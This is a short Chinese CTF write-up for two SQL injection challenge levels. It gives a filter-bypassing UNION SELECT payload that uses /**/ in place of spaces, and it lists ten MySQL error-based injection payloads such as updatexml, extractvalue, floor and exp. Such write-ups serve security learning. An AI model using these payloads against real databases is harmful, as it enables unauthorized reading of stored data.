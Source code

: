 ## 简单的sql注入2

> 有回显的mysql注入

简单测试后发现提交有空格就会爆`SQLi detected!`
于是用`/**/`来替换空格
构造payload得（就是在上一关的基础上替换了空格）

```
1'/**//*!union*//**//*!select*//**/flag/**//*!from*//**/flag/**//*!where*//**/'1'='1
```



得到flag发现和上一关是一样的？？？！！

## 简单的sql注入3

> mysql报错注入

简单测试后发现 `floor updatexml extractvalue`这几个关键词被过滤，于是寻找其他函数，找到一篇资料[十种MySQL报错注入](http://www.cnblogs.com/wocalieshenmegui/p/5917967.html)

```
1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

5.multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

6.polygon()
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

7.multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

8.linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

9.multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

10.exp()
select * from test where id=1 and exp(~(select * from(select user())a));
```
